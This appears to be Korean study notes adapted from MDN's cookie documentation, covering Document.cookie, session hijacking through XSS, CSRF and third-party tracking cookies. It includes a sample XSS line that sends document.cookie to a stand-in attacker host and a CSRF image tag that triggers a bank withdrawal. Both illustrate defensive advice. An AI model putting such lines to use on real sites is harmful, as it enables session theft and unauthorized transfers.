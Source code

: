## 6.1.6 Document.cookie를 사용한 자바스크립트 접근

- 새로운 쿠키들은 Document.cookie를 사용해 만들어질 수도 있으며, HttpOnly 플래그가 설정되지 않은 경우 기본의 쿠키들은 자바스크립트로부터 잘 접근될 수 있다. 

~~~
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
~~~

## 6.2 보안

- 기밀 혹은 민감한 정보는 전체 메커니즘이 본질적으로 위험하기 때문에 HTTP 쿠키 내에 저장되거나 전송되어서는 안된다. 

## 6.2.1 세션 하이재킹과 XSS

- 쿠키는 대개 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용되곤 한다. 
- 그래서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있다. 
- 쿠키를 가로채는 일반적인 방법은 소셜 공학 사용 혹은 애플리케이션 내 XSS 취약점을 이용하는 것을 포함한다. 
~~~
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
~~~

- HttpOnly 쿠키 속성은 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 누그러뜨리는데 도움을 줄 수 있다. 

## 6.2.2 Cross-site 요청 위조(CSRF)

- 당신의 은행 서버에 돈을 입금하는 실제 요청 대신에, 실제로는 이미지가 아닌 이미지를 포함시키고 있다. 

~~~
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
~~~

- 이제 당신이 당신의 은행 계좌에 로그인하고 당신의 쿠키가 여전히 유효하다면(그리고 별 다른 검증 절차가 존재하지 않는다면), 해당 이미지를 포함하고 있는 HTML을 로드하자마자 돈이 송금될 것이다. 이런 일들을 방지하기 위한 몇 가지 기술이 있다.
    - XSS와 마찬가지로 입력 필터링은 중요한 문제이다. 
    - 모든 민감한 동작에 필수로 요구되는 확인 절차가 할상 수행되도록 한다. 
    - 민감한 동작에 사용되는 쿠키는 짧은 수명만 갖도록 한다. 

## 6.3 트래킹과 프라이버시

## 6.3.1 서드파티 쿠키

- 쿠키는 그와 관련된 도메인을 가진다. 
- 이 도메인이 당신이 현재 보고 있는 페이지의 도메인과 동일하다면, 그 쿠키는 퍼스트 파티 쿠키라고 불린다. 
- 만약 도메인이 다르다면, 서드파티 쿠키라고 부른다. 
- 퍼스트파티 쿠키가 그것을 설정한 서버에만 전송되는데 반해, 웹 페이지는 다른 도메인의 서버 상에 저장된 (광고 배너와 같은) 이미지 혹은 컴포넌트를 포함할 수도 있다. 
- 이러한 서드파티 컴포넌트를 통해 전송되는 쿠키들을 서드파티 쿠키라고 부르며 웹을 통한 공과와 트래킹에 주로 사용된다. 
- 대부분의 브라우저들은 기본적으로 서드파티 쿠키를 따르지만, 그것을 차단하는데 이용되는 애드온들이 있다. 
- 당신이 만약 서드파티 쿠키를 공개하고 있지 않다면, 쿠키 사용이 밝혀질 경우 소비자 신뢰를 잃을 수 있다. 
- (프라이버시 정책과 같은) 명백한 공개는 쿠키 발견과 관련된 모든 부정적인 효과를 없애는 경향이 있다. 
- 어떤 국가들은 쿠키에 관한 법률도 가지고 있다. 

